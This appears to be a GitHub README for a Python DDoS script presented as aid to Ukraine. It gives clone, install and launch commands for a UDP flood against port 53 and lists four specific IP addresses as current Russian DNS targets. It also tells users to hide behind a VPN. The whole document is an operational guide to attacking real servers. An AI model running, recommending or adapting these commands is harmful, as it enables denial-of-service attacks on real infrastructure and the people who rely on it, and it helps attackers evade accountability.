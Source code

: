 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>

<em><h5 align="center">(Code Lang - Python 3)</h5></em>


<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started


**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently russian dns targets
```console
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






